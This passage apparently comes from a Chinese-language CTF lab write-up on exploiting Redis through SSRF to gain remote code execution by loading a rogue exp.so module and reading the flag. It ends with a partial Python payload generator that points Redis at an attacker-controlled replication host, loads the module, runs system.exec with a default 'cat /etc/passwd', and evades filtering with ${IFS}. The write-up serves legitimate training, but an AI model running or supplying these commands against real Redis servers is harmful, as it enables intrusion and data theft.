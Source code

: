 
接著試著查查看有沒有叫FLAG的key，發現沒有
而且key大家都可以改，萬一被改掉就看不到了，感覺不太合理

最後爬到了這個文章
https://github.com/vulhub/redis-rogue-getshell
看了一下裡面的指令就試著去看/tmp/exp.so有沒有存在，結果真的找到了XD
於是直接使用MODULE LOAD exp.so跟system.exec執行ls，執行成功，代表可以RCE了
後來server重開後這樣打會失效，需要重新設定一下，於是還是用了完整的攻擊指令，不過大部份指令其實都被過濾掉而失敗，應該是因為exp.so已經被講師放好跟LOAD好了，重點只是把dir改到tmp讓system.exec可以成功執行而已
那根據splitline lab放flag的經驗，先用ls /看一下根目錄，成功找到flag
```
$132
bin
boot
dev
etc
flag_LgqcHFhUFlwEmZ6jZ1zMzqfasc8SjaSw
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var

+OK
```
cat得到flag的內容，搞定
```
$34
FLAG{data:text/flag;r3d1s-s3rv3r}

+OK
```
最後附上我ssrf跟rce用的腳本，腳本的部份有參考下面網站的code，拿來生redis rce的payload
https://github.com/xmsec/redis-ssrf/blob/master/ssrf-redis.py
```python=
import requests
import base64

try:
    from urllib import quote
except:
    from urllib.parse import quote


def generate_rce(lhost, lport, command="cat /etc/passwd"):
    exp_filename = "exp.so"
    cmd = [
        "SLAVEOF {} {}".format(lhost, lport),
        "CONFIG SET dir /tmp/",
        "config set dbfilename {}".format(exp_filename),
        "MODULE LOAD /tmp/{}".format(exp_filename),
        "system.exec {}".format(command.replace(" ", "${IFS}")),
        "quit"
```